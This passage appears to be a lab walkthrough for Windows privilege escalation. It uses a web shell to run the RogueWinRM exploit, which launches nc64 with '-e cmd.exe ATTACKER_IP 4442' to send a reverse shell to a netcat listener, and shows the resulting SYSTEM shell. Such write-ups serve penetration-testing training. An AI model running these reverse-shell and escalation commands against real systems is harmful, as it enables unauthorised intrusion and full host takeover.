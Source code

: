 Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

```shell
user@attackerpc$ nc -lvp 4442
```

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

```shell-session
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

**Note:** The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

```bash
user@attackerpc$ rlwrap nc -lvnp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```


[JuicyPotatox86](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
